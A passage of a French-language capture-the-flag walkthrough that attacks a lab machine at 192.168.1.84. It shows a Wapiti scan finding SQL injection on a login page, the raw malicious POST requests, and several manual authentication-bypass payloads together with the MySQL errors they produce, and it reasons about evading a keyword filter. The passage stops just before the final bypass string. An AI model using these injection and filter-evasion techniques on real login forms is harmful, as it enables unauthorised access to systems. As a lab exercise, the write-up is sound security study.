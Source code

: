 On ne récupère que l'accès au SSH précédemment filtré. Ça nous servira sans doute plus tard.  

Mach 10
-------

Un petit scan avec *Wapiti* permet de trouver une faille d'injection SQL sur la page de login renvoyée par le serveur Apache (nb: le mot clé *common* est présent dans la version de dév, pas dans la version stable actuelle) :  

```plain
./bin/wapiti http://192.168.1.84/ -m "common,nikto,backup,htaccess"

[+] Lancement du module sql
Injection MySQL dans http://192.168.1.84/login.php via une injection dans le paramètre email
Evil request:
POST /login.php HTTP/1.1
Host: 192.168.1.84
Referer: http://192.168.1.84/
Content-Type: application/x-www-form-urlencoded

email=%BF%27%22%28&password=letmein

Injection MySQL dans http://192.168.1.84/login.php via une injection dans le paramètre password
Evil request:
POST /login.php HTTP/1.1
Host: 192.168.1.84
Referer: http://192.168.1.84/
Content-Type: application/x-www-form-urlencoded

email=default&password=%BF%27%22%28
```

Malheureusement *sqlmap* se casse les dents sur cette faille. On va devoir étudier ça nous même.  

Si on tente de bypasser l'authentification (saisie de *' or 1=1#* dans le champ email) on obtient l'erreur suivante :  

```plain
There was an error running the query [You have an error in your SQL syntax;
check the manual that corresponds to your MySQL server version for the right
syntax to use near '11#' and password=''' at line 1]
```

Il semble que certains mots clés soient directement retirés de la chaîne que l'on a passé.  

Même chose avec *' or 1 or 1;#* :  

```plain
... near '1 1;#' and password='''
```

et avec une tentative d'union (*' union select 1,1;#*) :  

```plain
... near '11;#' and password='''
```

Le script a l'air de retirer les *OR*, *AND*, virgules, égal et potentiellement d'autres caractères. Heureusement MySQL supporte une autre réprésentation de l'opérateur *OR*. On peut finalement bypasser l'authentification en saisissant l'email suivant :  
